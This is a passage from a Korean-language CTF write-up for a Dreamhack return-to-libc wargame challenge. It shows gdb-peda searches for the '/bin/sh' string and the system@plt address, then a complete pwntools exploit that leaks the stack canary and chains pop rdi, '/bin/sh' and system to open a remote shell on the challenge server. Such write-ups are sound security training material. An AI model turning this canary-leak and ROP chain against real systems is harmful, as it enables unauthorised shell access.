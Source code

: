 그럼 이제 “/bin/sh”의 주소를 찾자

```python
const char* binsh = "/bin/sh";
```

코드 상에서 전역 변수로 “/bin/sh”가 존재하므로 일단 main에 브레이크 포인트를 건 후 실행한 상태에서 /bin/sh를 찾자.

```python
gdb-peda$ b *main
Breakpoint 1 at 0x4006f7
gdb-peda$ r
-------------------------------------------------
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
 rtl : 0x400874 --> 0x68732f6e69622f ('/bin/sh')
 rtl : 0x600874 --> 0x68732f6e69622f ('/bin/sh')
libc : 0x7ffff7f6e882 --> 0x68732f6e69622f ('/bin/sh')
```

rtl에서 bin/sh가 저장되어 있는 위치를 찾을 수 있다. 0x400874이다.

또한 ASLR이 걸려있어도 PIE가 적용되어있지 않으면 plt 주소는 고정되어 있으므로 elfsymbol을 이용해 plt 주소를 알아내어도 이 주소는 고정값이다. 

```python
gdb-peda$ elfsymbol
Found 6 symbols
puts@plt = 0x4005b0
__stack_chk_fail@plt = 0x4005c0
system@plt = 0x4005d0
printf@plt = 0x4005e0
read@plt = 0x4005f0
setvbuf@plt = 0x400600
```

이를 통해 system의 plt 주소는 0x4005d0임을 알 수 있다.

즉 아래와 같이 페이로드를 구성했다.

![페이로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c630c099-9a7b-4b36-8186-178fa435bcaf/%ED%8E%98%EC%9D%B4%EB%A1%9C%EB%93%9C.png)

그러면 이제 페이로드를 마저 작성해보자.

```python
from pwn import *

host="host3.dreamhack.games"
port=10252

p=remote(host,port)

canary_payload=b'A'*0x39

p.sendlineafter("Buf: ",canary_payload)
p.recvuntil(canary_payload)
canary=p64(u64(b'\x00'+p.recvn(7)))

pop_rdi=p64(0x400853)
bin_sh=p64(0x400874)
system_plt=p64(0x4005d0)
payload=b'A'*0x38+canary+b'A'*8
payload+=pop_rdi
payload+=bin_sh
payload+=system_plt

p.sendlineafter("Buf: ",payload)
p.interactive()
```
